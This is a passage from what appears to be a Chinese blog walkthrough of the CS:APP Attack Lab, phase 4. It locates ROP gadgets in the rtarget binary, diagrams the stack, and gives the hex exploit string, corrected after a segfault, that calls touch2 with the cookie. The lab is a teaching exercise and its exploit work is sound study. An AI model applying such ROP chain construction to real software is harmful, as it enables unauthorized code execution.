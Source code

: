 复制

结合上表，我们想要插入一个数字，肯定需要 `popq` 指令，对应下来就是 `58 - 5f` 这个范围，因为 ROP 的缘故，我们还需要后面有个 `c3`，经过搜索，可以看到在 `addval_104` 中，有一段 `58 c3`，也就是把栈中的值弹入到 `%rax` 中，记住这个地址 `0x401a24`。

现在我们要做的就是把存放在 `%rax` 的值放到 `%rdi` 中，因为这样才能当做参数传给 `touch2` 函数。根据表里的内容，继续找，这次的目标是 `48 89 c7`，也就是 `movq %rax, %rdi`，很幸运，又在 `getval_341` 中找到了，后面还正好跟了个 `c3`，赶紧记下这个地址 `0x401a2b`。

接下来我们就可以凑 ROP 程序了，下面是栈顶，上面是栈底。

```
0x00401860 (最后是 touch2 的入口地址，进行调用)
-------
0x00401a2b (把 %rax 的值放入到 %rdi 中，作为参数) -> gadget 2
-------
0x45374fee (我的 cookie，会被 gadget 1 存入到 %rax 中)
-------
0x00401a24 (旧的返回地址会被这里覆盖) -> gadget 1
-------
....
buf (缓冲区，这里随便写点啥都可以，反正都不能执行)
-------
```

复制

构造出来的字符串就是（little-endian 规则，要反着看）

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
24 1a 40 00 ee 4f 37 45
2b 1a 40 00 60 18 40 00
```

复制

然后转换成机器码 `./hex2raw < p4.txt > p4r.txt`，再执行 `./rtarget -i p4r.txt`

但是这样居然会遇到段错误，这是我万万没想到的，问题出在哪里呢？我尝试把这四条语句拆开来执行，发现第一句和第四句没问题，但是中间两句有问题。这说明了一个问题，就是某条语句的执行依赖于后面的语句，再联想到这是 64 位的机器，就明白了为什么会出现段错误了，应该在每个语句后面补 0，那么好，修正之后的字符串是

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
24 1a 40 00 00 00 00 00
ee 4f 37 45 00 00 00 00
2b 1a 40 00 00 00 00 00
60 18 40 00 00 00 00 00
```

复制
